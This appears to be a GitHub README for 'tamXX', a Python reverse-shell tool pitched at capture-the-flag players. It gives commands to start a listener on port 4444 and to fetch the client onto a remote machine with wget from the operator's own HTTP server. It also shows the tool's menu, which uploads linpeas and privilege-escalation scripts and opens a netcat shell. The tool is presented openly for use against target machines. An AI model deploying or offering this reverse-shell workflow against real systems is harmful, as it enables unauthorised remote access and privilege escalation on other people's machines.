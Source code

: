 # tamcat
What is tamXX ?
tamXX is a python reverse shell helping you in ctf
# REVERSE SHELL PYTHON
*by arvialo*

**SETUP tamXX**
```bash
cd /opt
git clone https://github.com/Arvialo/tamXX
cd tamXX
pip3 install -r requirements.txt
```

# USE tamXX
**ON LOCAL MACHINE**
```bash
chmod +x tamServ.py
./tamServ --help # get help
./tamServ -l -p 4444
./tamServ --listen --port 4444
```

**ON REMOTE MACHINE**
```bash
#first, put tamCli.py on remote machine by http server for example
# on local machine : python3 -m http.server
# on remote machine : wget http://<IP>:8000/tamCli.py
chmod +x tamCli.py
./tamCli.py --help
./tamCl.py --target localhost --prompt --port 4444
```

**Once connected to machine (from server)**
```bash
# when you are on remote machine, there is written (remote) at the beginning
(remote) root@[/opt/tamXX] $
# and when you are on local machine, there is written (local) at the beginning
(local) arvial@[/opt/tamXX] $

#to switch between two machines, you have to put "local" on tamServ's command prompt
ex:
(remote) root@[/opt/tamXX] $ local
(local) arvial@[/opt/tamXX] $

# next to (local) or (remote) you have username and next to username you have path location
# Then, only from (local) :
(local) arvial@[/opt/tamXX] $ help
            WE ARE ON ! WHAT CAN I DO ?
            [OPTIONS] :
                First, you can execute almost same commands like real shell!
                help		get some help ;)
                linpeas		upload linpeas.sh on machine
                shell		get full interactive shell
                upload		upload file into machine
                    (ex : upload <fileSource> <fileDestination>
                          files available : suid.py)
#So you can type 'linpeas' and it will upload linpeas on remote
# you can type 'shell' and it will open new command prompt with netcat shell
# And you can type 'upload' to upload file located in /opt/tamXX/privesc/ ----> you can add you file inside
(remote) root@[/opt/tamXX] $ cd /dev/shm
(remote) root@[/opt/tamXX] $ local
(local) arvial@[/opt/tamXX] $ upload suid.py suid.py
UPLOADED !
(local) root@[/opt/tamXX] $ exit
(remote) root@[/dev/shm] $ ls
suid.py

#and it is uploaded !

```

Be careful, it is not an full interactive shell, so some commands like while's loop will not work and it can break the shell.
